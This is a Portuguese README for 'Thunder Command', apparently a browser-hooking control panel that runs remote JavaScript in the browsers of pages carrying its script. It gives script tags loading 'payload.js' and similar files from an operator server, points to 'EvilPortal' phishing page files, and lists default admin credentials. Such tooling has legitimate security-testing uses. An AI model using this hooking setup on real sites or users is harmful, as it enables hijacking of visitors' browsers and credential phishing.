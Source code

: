 # Documentação Painel de Controle - Thunder Command

<h1 align="center">
  <img src="../static/img/logo.png"   width="200">
</h1>

## Visão Geral

O Thunder Command v2.0+ permite controlar remotamente páginas web em tempo real, executando comandos JavaScript e manipulando elementos HTML em navegadores de clientes conectados. O sistema utiliza **exclusivamente HTTP polling** para comunicação, oferecendo máxima compatibilidade e estabilidade.

Este guia explica como utilizar o painel de controle administrativo para interagir com páginas de clientes que incluem o script `cmd.js`.

### Pré-requisitos

- Python 3.8+ instalado
- Dependências instaladas: `pip install -r requirements.txt`
- (Opcional) Node.js para desenvolvimento frontend: `npm install`

## Configuração do Cliente

Para transformar qualquer página em um cliente, adicione o script no final do `<body>`:

```html
<!-- Formato: http://servidor:porta/ID/nome.js -->
<script src="http://seu-servidor:5000/123/app.js"></script>
<script src="http://seu-servidor:5000/456/payload.js"></script>
<script src="http://seu-servidor:5000/789/bootstrap.js"></script>
```

**Importante**: O sistema gera IDs únicos automaticamente para cada cliente conectado. Os arquivos devem terminar com `.js` ou `.map`.

## Exemplos Disponíveis

1. **exemple-clear.html** - Página básica para testes simples
2. **exemple-wifi.html** - Simulação de portal captive Wi-Fi
3. **example-class-id.html** - Página com diversos IDs e classes para testes

É possível usar os arquivos HTML do projeto **Brasil EvilPortal HTML Files**:
- https://github.com/MrCl0wnLab/BR-EvilPortal-HTML-Files

## Como Acessar o Painel

### Opção 1 - Servidor Moderno (Recomendado)
1. Inicie o servidor: `python run.py`
2. Acesse: `http://seu-servidor:5000/login`
3. Entre com suas credenciais (padrão: `tandera`/`tandera`)
4. Você será direcionado para: `http://seu-servidor:5000/admin`
